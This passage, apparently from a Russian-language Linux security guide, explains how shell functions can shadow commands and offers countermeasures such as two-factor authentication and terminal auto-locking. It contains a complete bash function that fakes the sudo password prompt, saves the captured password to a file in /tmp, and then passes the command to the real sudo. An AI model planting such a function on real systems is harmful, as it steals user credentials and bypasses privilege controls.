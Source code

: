 ## Вопрос обработки функций в оболочке {#Shell-functions-question}

Любая оболочка в Linux или Unix спроектирована и создана таким образом, что она сперва вызывает встроенные в неё функции, а уже затем файл, который ей передан в качестве аргумента. Основываясь на этом поведении оболочки существует масса техник перехвата ввода. Необходимо помнить, что если на важном сервере или на рабочей станции остался незаблокированный терминал, особенно в тех местах, где к этому терминалу может получить доступ кто-то еще -- можно внедрить в оболочку функцию перехвата ввода. 

### Простой тест перехвата ввода в оболочке {#Simple-test-for-stealing-cridentials}

Ниже приводится простой пример сценария оболочки, которой демонстрирует концепцию перехвата ввода в оболочке и записывает перехваченный пароль пользователя в файл в каталоге ```/tmp```:

```sh
function sudo () {
    realsudo="$(which sudo)"

    if grep -Fqs "$USER" /tmp/hackedPasswd.txt
    then
        $realsudo "${@:1}"
    else
        read -s -p "[sudo] password for $USER: " inputPasswd
        printf "\n"; printf '%s\n' "$USER : $inputPasswd" > /tmp/hackedPasswd.txt
        $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
        $realsudo "${@:1}"
    fi
}
```

После этого можно вызвать:
 
```sh 
$ sudo -i
```

И, выполнив аутентификацию, полюбоваться на перехваченный пароль:
 
```sh 
$ cat /tmp/hackedPasswd.txt
```

Базируясь на таком принципе -- можно перехватывать любой ввод, обходя ограничения ```su```, ```sudo``` (включая обход разрешений на вызов ```sudo``` с аргументами), и т.п. 

Опасность применения такой техники ещё и в том, что в данном случае не требуется внедрение в систему каких-либо файлов, которые могли бы быть выявлены функциями контроля целостности или программами, выявляющими вредоносный код.

### Что можно сделать для противодействия {#What-to-do-if-stealing-is-possible}

1. Применять двухшаговую или двухфакторную аутентификацию;
2. Обязательно настроить автоматическую блокировку компьютера с запуском хранителя экрана, если это возможно. Если в системе нет графического интерфейса -- то применить технику блокировки любого терминала оболочки по тайм-ауту, чтобы ограничить потенциальное окно времени, в которое можно внедрить опасный сценарий оболочки если пользователь ушёл, и забыл заблокировать компьютер или выйти из интерактивного сеанса. Для этого можно установить мультиплексор терминала ```tmux``` и программу блокировки ```vlock``` чтобы создать конфигурацию для принудительной блокировки любого интерактивного сеанса оболочки по тайм-ауту.
